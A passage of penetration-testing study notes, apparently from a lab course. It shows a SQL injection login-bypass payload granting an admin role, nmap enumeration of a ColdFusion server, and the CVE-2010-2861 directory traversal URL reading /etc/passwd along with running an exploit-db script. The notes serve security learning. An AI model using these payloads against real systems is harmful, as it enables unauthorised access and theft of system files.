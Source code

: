     * if we rebuild the JAR file and attempt login using username payload ```abc' UNION SELECT 1,'abc','a@b.com','abc','admin``` and password payload ```abc```, it works and we get 'admin' role

## Miscellaneous Applications

* ColdFusion:

  * enumeration:

    * ColdFusion uses CFML (ColdFusion Markup Language) to develop dynamic webapps that can be connected to APIs and DBs

    * port 80 for HTTP and port 443 for HTTPS is used by default by ColdFusion server; other than that we can check for file extensions such as ```.cfm``` or ```.cfc```, or check HTTP headers and error messages:

      ```sh
      nmap -p- -sC -Pn 10.129.247.30 --open
      # nmap scan shows port 8500 is open
      # it is the default port used for SSL by ColdFusion
      ```

    * we can enumerate the web directories on this port - the ```/CFIDE/administrator``` path loads the login page, which shows the version
  
  * attacking:

    * we can use ```searchsploit``` to check for exploits for ColdFusion 8, as that is the version in this case; we have directory traversal and RCE exploits

    * directory traversal (CVE-2010-2861) - affects ColdFusion 9.0.1 and earlier versions; we can read arbitrary files by manipulating the ```locale``` parameter for certain ColdFusion files like ```CFIDE/administrator/settings/mappings.cfm``` and ```CFIDE/administrator/enter.cfm```:

      ```http
      http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en
      ```

      ```http
      http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
      ```

      ```sh
      searchsploit -p 14641
      # directory traversal exploit
      # -p to copy path

      cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .

      python 14641.py
      # script for directory traversal exploit
